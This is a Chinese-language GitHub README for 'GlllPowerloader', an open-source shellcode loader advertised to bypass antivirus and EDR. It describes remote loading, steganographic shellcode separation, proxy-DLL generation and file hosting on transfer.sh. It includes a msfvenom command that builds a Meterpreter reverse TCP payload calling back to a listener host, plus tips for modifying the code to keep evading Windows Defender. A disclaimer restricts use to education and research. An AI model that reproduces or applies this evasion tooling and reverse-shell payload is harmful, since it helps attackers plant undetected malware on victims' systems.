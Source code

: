 # GlllPowerloader


- [1.前言](#1前言)

- [2.功能](#2功能)

- [3.使用](#3使用)
  - [0x01.环境安装](#0x01环境安装)
  
  - [0x02.shellcode loader的使用](#0x02shellcode-loader的使用)
  
  - [0x03.Automation\_loader](#0x03automation_loader)
  
  - [0x04.文件格式转换](#0x04文件格式转换)
  
  - [0x05.自动化生成代理DLL](#0x05自动化生成代理dll)
  
  - [0x06.文件捆绑和上传](#0x06文件捆绑和上传)
  
    
  
- [4.更新](#4更新)

- [5.免责声明](#5免责声明)

- [6.结语](#6结语)

# 1.前言

* 视频讲解：https://www.bilibili.com/video/BV1RK411z7XA/  欢迎点赞关注

- 刚开始可以免杀主流杀软的，不过后面肯定会被乱杀，开源的目的是学习恶意代码和自动化脚本
- 本人并不推荐shellcode加密，一般的加密算法都会使程序熵增，可以使用远程加载和图片隐写的方式分离shellcode

# 2.功能



|       功能       |                描述                |
| :--------------: | :--------------------------------: |
|   1.免杀加载器   | 各种方式加载shellcode，绕过AV/EDR  |
|  2.文件格式转换  |    Windows中文件格式之间的转换     |
| 3.自动化文件托管 | 将文件托管到：https://transfer.sh/ |



# 3.使用

## 0x01.环境安装

您必须下载并安装以下环境：

1.Mingw64(C/C++)：https://github.com/niXman/mingw-builds-binaries/releases/download/12.2.0-rt_v10-rev2/x86_64-12.2.0-release-posix-seh-msvcrt-rt_v10-rev2.7z

解压完以后，将bin目录添加至环境变 量即可

使用Git下载项目

```
git clone https://github.com/INotGreen/GlllPowerloader.git
cd GlllPowerLoader-master
pip install -r requirements.txt
start.bat
```



## 0x02.shellcode loader的使用

大部分已经不能免杀了，不过稍微改一下基本上都能过，建议使用无阶段的shellcode（Stageless）

Metasploit:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.0 LPORT=4488 -f raw -o payload.bin
```

## 0x03.Automation_loader

必须保证你的shellcode是干净的，否则还是会被Windows Defender抓住



![](Image\demo.gif)

# 4.更新

[+] 2022年12.21，Powerloader发布

[+]2023 年11.15-19， 删除冗余的功能，优化代码（之前的版本涉及语言安装环境太多了，使用太麻烦，为了简便就留C/C++的加载器）

免杀加载器正在更新中。。。


# 5.免责声明

该工具仅用于网络安全教育和研究，禁止用于非法途径，我对您由使用或传播等由此软件引起的任何行为和/或损害不承担任何责任。您对使用此软件的任何行为承担全部责任，并承认此软件仅用于教育和研究目的。下载本软件或软件的源代码，您自动同意上述内容。

# 6.致谢

https://github.com/icyguider/Shhhloader
